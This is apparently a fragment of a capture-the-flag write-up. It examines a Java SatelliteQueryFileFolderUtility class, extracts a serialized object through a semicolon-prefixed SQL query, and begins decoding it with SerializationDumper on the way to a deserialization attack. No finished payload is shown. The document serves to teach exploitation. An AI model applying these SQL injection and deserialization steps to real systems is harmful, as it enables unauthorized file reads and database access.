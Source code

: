 ```java
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
```
This function looks like it would either run a command on a database, or get a file from the local filesystem. 
Also, we see refernces to Serialization functions. Let's get the object as hex so we can take a closer look.

```sql
;SELECT HEX(object) from satellite_query;
HEX(object): ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661
```
We can use [SerializatoinDumper](https://github.com/NickstaDB/SerializationDumper) to deserialize this

```
$ java -jar SerializationDumper-v1.13.jar ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 31 - 0x00 1f
        Value - SatelliteQueryFileFolderUtility - 0x536174656c6c697465517565727946696c65466f6c6465725574696c697479
      serialVersionUID - 0x12 d4 f6 8d 0e b3 92 cb
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 3 - 0x00 03
      Fields
        0:
          Boolean - Z - 0x5a
          fieldName
            Length - 7 - 0x00 07
            Value - isQuery - 0x69735175657279
        1:
          Boolean - Z - 0x5a
```